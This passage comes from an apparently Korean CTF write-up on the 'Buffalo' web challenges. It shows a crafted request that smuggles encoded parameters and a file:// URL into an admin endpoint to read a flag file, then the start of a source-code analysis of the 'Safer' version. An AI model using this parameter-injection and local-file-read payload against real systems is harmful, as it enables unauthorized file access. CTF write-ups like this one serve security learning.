 동일한 원리를 이용해서 Flag 파일을 추출해보았습니다.

```
http://localhost/admin/reg_slot.php?headers[CONTENT-TYPE]=application/json&name=asdf%26slotid=asdf%26reel_blur=file:///flag_SECRET.txt%26reel=asdf#register
```

![flag2](/assets/img/buffalo-secret-writeup-2.png){: .shadow }
_flag_SECRET.txt_

이렇게 Flag 값을 구할 수 있었습니다.

---

# Buffalo [Safer] Writeup

## Introduction

> **Buffalo [Safer] (488 pts, 10 solves)**
> <br>much safe buffalo
> <br>URL : http://3.39.255.32/
> {: .prompt-info }

지문에도 나와 있다시피 더 안전해진 buffalo 라고 합니다.
뭐가 달라졌는지 제공된 소스코드를 보았습니다.

## Code Analysis

### api/game_rsp.php

```php
<?php
define("_BUFFALO_", 1);

include "../__common.php";
include "./_api_common.php";

$sel = $USER_DATA["sel"];
if($sel == "win" || $sel == "lose" || $sel == "draw") {
    $am = (float)$USER_DATA["amount"];
    $u = bin2hex($user["userid"]);

    if($am > $user["credit"] || $am < 0.25) {
        error("Invalid bet");
    }
    mysqli_query($conn, "update user set credit = credit - $am where userid = '$u'");

    //0, 1, 2 : rock, scissors, paper
    $stack = random_choice(array(
        0 => 1, 1 => 1, 2 => 1
    ));

    $result_table = array(
        "win" => 100, "lose" => 100, "draw" => 100
    );

    //top secret: it's not fair game
```
